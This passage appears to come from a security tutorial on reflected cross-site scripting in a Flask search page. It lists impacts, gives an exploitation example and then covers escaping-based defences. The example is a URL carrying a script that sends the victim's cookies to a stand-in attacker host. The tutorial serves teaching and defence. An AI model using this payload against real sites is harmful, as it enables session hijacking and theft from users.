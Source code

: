 ### **c. Potential Impacts of the Vulnerability**

- **Session Hijacking:** Stealing user session cookies to impersonate users.
- **Phishing Attacks:** Redirecting users to malicious websites that mimic legitimate ones.
- **Data Manipulation:** Altering the content displayed to users, leading to misinformation.
- **Malware Distribution:** Injecting scripts that download and install malware on users' devices.

## **2. Exploitation Example**

Consider an attacker crafting the following URL:

```
https://www.globalbank.com/search?query=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

When a victim accesses this URL:

1. The malicious script fetches the victim's cookies and sends them to the attacker's server (`attacker.com`).
2. The attacker can then use these cookies to hijack the victim's session, potentially gaining unauthorized access to their bank account.

**Note:** Modern browsers implement various security measures (like Content Security Policy) that can mitigate some XSS attacks, but relying solely on these is not recommended.

## **3. Best Practices to Prevent XSS Vulnerabilities**

### **a. Properly Escape and Sanitize User Inputs**

- **Autoescaping:** Ensure that template engines autoescape variables by default. In Flask's Jinja2, autoescaping is enabled for templates rendered via `render_template`. However, when using `render_template_string`, developers must be cautious to maintain these protections.

  ```python
  # Preferred way using render_template with separate template files
  from flask import render_template

  @app.route('/search')
  def search():
      query = request.args.get('query', '')
      return render_template('search.html', query=query)
  ```

- **Manual Escaping:** If you must use `render_template_string`, ensure that all user inputs are properly escaped.

  ```python
  from markupsafe import escape

  @app.route('/search')
  def search():
      query = escape(request.args.get('query', ''))
      # Proceed with rendering the template
  ```
